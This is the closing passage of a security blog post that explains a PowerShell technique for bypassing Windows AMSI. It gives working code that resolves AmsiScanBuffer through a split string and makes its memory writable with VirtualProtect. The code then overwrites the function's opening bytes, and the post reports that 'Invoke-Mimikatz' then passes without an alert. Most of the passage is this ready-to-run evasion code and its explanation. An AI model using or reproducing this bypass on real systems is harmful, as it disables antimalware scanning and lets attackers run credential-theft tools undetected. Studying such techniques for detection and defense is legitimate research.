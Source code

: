 ```c#
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out int lpflOldProtect);
	
}"@
```

In the above code, we are first loading the required namespaces. `System.Runtime.InteropServices` is where pinvoke implemented. Then we are defining the signature for each native API, I have taken them from pinvoke.net. We need to load the above C# code inside powershell session using Add-Type.

```c#
Add-Type $code
```

Now we can use those API calls from inside powershell session.

```c#
$amsiDll = [WinApi]::LoadLibrary("amsi.dll")
$asbAddr = [WinApi]::GetProcAddress($amsiDll, "Ams"+"iScan"+"Buf"+"fer")
$ret = [Byte[]] ( 0xc3, 0x80, 0x07, 0x00,0x57, 0xb8 )
$out = 0

[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, 0x40, [ref] $out)
[System.Runtime.InteropServices.Marshal]::Copy($ret, 0, $asbAddr, $ret.Length)
[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, $out, [ref] $null)
```

In the above code, first we are getting the handle to the amsi.dll library then calling GetProcAddress to get the address to the AmsiScanBuffer function inside amsi.dll. Then we are defining a variable named $ret which contains the bytes which will overwrite the very first instructions of AmsiScanBuffer, $out is what will contain the old permission of the memory region returned by VirtualProtect then we are calling VirtualProtect to change the permission of AmsiScanBuffer region to RWX(0x40) and then using Marshal.Copy to copy bytes from managed memory region to unmanaged and then calling VirtualProtect again to change back the permission of AmsiScanBuffer to previous one which we had stored in $out.

![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/amsibypass/Pasted%20image%2020210816164830.png)

![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/amsibypass/Pasted%20image%2020210816164938.png)

As can be seen above, now passing "Invoke-Mimikatz" doesn't trigger amsi alert. If you have attached the powershell session to WinDBG, you can verify if the AmsiScanBuffer was overwritten with our bytes.

Thank you very much for taking your time in reading this. Feel free to reach out to me @dazzyddos for any query or if there's any correction or addition needed.

![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/amsibypass/Pasted%20image%2020210816164903.png)

### Resources and References

https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal

https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/

https://fluidattacks.com/blog/amsi-bypass/

https://frida.re










